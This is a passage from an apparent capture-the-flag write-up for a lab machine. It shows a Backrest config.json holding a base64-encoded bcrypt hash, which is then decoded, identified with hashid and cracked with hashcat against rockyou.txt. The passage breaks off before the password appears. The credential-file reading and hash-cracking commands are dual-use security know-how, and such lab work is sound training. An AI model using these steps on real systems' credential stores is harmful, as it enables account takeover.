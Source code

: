 ##### **Retrieving Credentials**

The `config.json` file contained configuration details and hashed credentials:

```bash
$ cat .config/backrest/config.json
```
```json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
        "disabled": false,
        "users": [
            {
            "name": "backrest_root",
            "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
            }
        ]
    }
}

```

The `passwordBcrypt` field is base64-encoded. I decoded it:

```bash
$ echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d

$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

---

##### **Hash Identification**

Using `hashid`, I confirmed the hash is of type **bcrypt**:

```bash
$ hashid '$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO'
```

---

##### **Cracking the Hash**

I used `hashcat` with the `rockyou.txt` wordlist to crack the bcrypt hash:

```bash
$ hashcat -a 0 -m 3200 '$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO' /opt/rockyou.txt
```

The hash was successfully cracked. Using `--show`, the password was revealed:
